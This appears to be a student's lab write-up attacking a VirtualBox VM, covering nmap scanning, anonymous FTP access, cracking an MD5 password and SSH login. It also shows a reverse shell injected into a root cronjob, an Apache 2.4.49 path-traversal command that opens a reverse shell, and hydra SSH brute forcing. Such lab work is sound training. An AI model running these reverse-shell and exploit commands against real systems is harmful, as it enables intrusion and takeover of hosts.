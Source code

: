 # Troubleshooting
As `/etc/netplan` configuration of the machine says, there is a static ip address without DHCP. It's look weird and agains requirements of the assignment.
![](images/netplan_trouble.png)
For this purpose we decide to boot the machine in recovery mode and then enable `root` console, only for network managment.
Once `root` we have removed every file under /etc/netplan and then we've created a `/etc/rc.local` file with following code
```sh
#!/bin/bash
dhclient
exit 0
```
then `chmod 755 /etc/rc.local` and then, enable and restart the service (may take a while)
```sh
systemctl enable rc-local
systemctl restart rc-local
```

# Information Gathering
## Scanning
### nMap
```sh
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A 192.168.56.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-03 03:40 EDT
Nmap scan report for 192.168.56.2
Host is up (0.00087s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           216 Apr 30 12:08 site-credentials.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 59:dc:bf:b0:43:be:b5:ed:c4:1f:b8:0b:93:01:3a:4a (RSA)
|   256 2d:12:5e:5d:a5:11:18:ec:16:07:b6:ce:ae:7f:14:03 (ECDSA)
|_  256 b8:76:62:9f:68:28:a8:30:d0:87:13:fd:d1:10:aa:df (ED25519)
MAC Address: 08:00:27:61:9A:82 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
```
### ffuf


## Dump informations
### FTP
Since nMap shows us an anonymous login allowed on machine, try to explore..
```sh
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.2
    anonymous
    <blank_password>
```
![](images/ftp_login.png)
`site-credentials.txt` reports something like
```txt
In case you forget the credentials to upload the files on the website,the IT department provided me with a file containing the password.
They mentioned a certain MD5 code.

ftp-user 37b4e2d82900d5e94b8da524fbeb33c0
```
seems we have a password hashed with MD5, but.. MD5 is unsafe since 2008 then maybe a rainbow-table attack can "decode" it.

```sh
md5:37b4e2d82900d5e94b8da524fbeb33c0 -> football
```
then.. could be this a user of the system? try it.
```sh
──(kali㉿kali)-[~]
└─$ ssh ftp-user@192.168.56.2
    football
ftp-user@ubuntulab:~$
```
**An unpriviledged shell was obtained 🏴‍☠️**
### Mounted disks
```sh
ftp-user@ubuntulab:~$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 49.9M  1 loop /snap/snapd/18357
loop1    7:1    0 91.9M  1 loop /snap/lxd/24061
loop2    7:2    0 38.8M  1 loop /snap/snapd/21465
loop3    7:3    0 63.3M  1 loop /snap/core20/1828
sda      8:0    0  5.2G  0 disk
├─sda1   8:1    0    1M  0 part
├─sda2   8:2    0  500M  0 part /boot
├─sda3   8:3    0  510M  0 part [SWAP]
└─sda4   8:4    0  4.2G  0 part /
sr0     11:0    1 1024M  0 rom
```
### /etc/passwd
```sh
...
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ftp:x:114:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftp-user:x:1001:1001:,,,:/usr/local/apache24/cgi-bin/:/bin/bash
```

# Play with users
## ftp-user
### Information gathering
Try to understand what are last operation of ftp-user by reading his **.bash_history** file
```sh
ftp-user@ubuntulab:~$ cat .bash_history
ls
cd ..
ls
cd ..
sl
lsv
exit
systemctl start apache2
systemctl status apache2.service
journalctl -xe
sudo journalctl -xe
exit
ls
exit
cat /etc/crontab
nano ../scripts/health_check.sh
vi ../scripts/health_check.sh
less ../scripts/health_check.sh
```
in his `/home` there are some files, maybe useful for priviledge escalation
```sh
ftp-user@ubuntulab:/usr/local/apache24/cgi-bin$ ls
printenv  printenv.vbs	printenv.wsf  test-cgi
```

# Privilege escalation
## Cronjob health-check.sh
The crontab was set to execute the health-check.sh every minute (`*/1 * * * *`)
 as root. Since health-check.sh was writable by the `ftp-user` we were able to inject a reverse shell into it:
 ```sh
 sh -i >& /dev/tcp/<attacker_machine>/<attacker_port> 0>&1
``` 

 # Foothold
 ## via Apache
With that version of Apache (2.4.49) misconfigured, we are able to produce a remote code execution via Path Traversal.
 ```sh
 curl -s -X POST -d "echo; bash -i >& /dev/tcp/192.168.56.3/9321 0>&1" http://192.168.56.4:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash
 ```
 ## via SSH 
Since SSH is enabled, we could try to enumerate SSH users and guess their passwords.
To find username `ubuntu` we have used `-L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt` and for password the command below
 ```sh
 ┌──(kali㉿kali)-[~/Desktop]
└─$ hydra -l ubuntu -P /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt 192.168.56.4 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-09 12:49:56
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking ssh://192.168.56.4:22/
[22][ssh] host: 192.168.56.4   login: ubuntu   password: admin@123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-09 12:50:20
```
```sh
[22][ssh] host: 192.168.56.4   login: ubuntu   password: admin@123
```

